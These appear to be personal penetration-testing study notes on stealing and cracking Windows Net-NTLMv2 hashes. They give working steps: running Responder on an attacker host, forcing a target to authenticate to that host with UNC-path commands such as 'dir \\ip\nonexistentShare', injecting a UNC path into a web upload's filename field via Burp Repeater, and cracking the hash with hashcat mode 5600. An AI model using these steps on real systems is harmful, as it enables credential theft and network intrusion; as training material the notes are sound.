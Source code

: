 
Sometimes we gain access to an unprivileged user so we do not have the ability to use Mimikatz. So we can attempt to abuse Net-NTLMv2 network authentication protocol responsible to for managing the authentication process across windows clients and servers.

Most modern systems use kerberos, but almost all systems still support Net-NTLMv2, so we can exploit its weaknesses.

#### Extracting and Cracking Net-NTLMv2

Target starts an authentication process using Net-NTLMv2 against a system we control.

We prepare our systems using `Responder` tool to handle the authentication process to show us the NetNTLMv2 hash the target used to authenticate.

*responder supports a lot of functionality outside of NTLM*

`ls \\ip\share` - if we have code execution of a remote target we can simply run this command to prompt an authentication from the remote target with out locally managed smb share in powershell

##### Web form authentication prompt

If we don't have code execution, we can also check other vectors - like attempting to upload a non-existent file via smb through a file server like `\\ip\share\nonexistent.txt`.
Which may prompt the authentication process with out smb service. To do this we change the `filename` parameter to `\\\\ip\\share\\lolol.txt` to prompt authentication, use burpsuite repeater.  FOLLOW THE STEPS BELOW.

##### Command-line 

1. `ip a` check interface to set service on
2. `sudo responder -I <interface>` - run service on selected interface
3. `dir \\ip\nonexistentShare` - run on target command line to prompt authentication process with out smb service to obtain the Net-NTLMv2 hash
4. save the hash in full to our system for cracking
5. `hashcat --help | grep -i "ntlm"` find the correct method for cracking
6. `hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force` attempt to crack the hash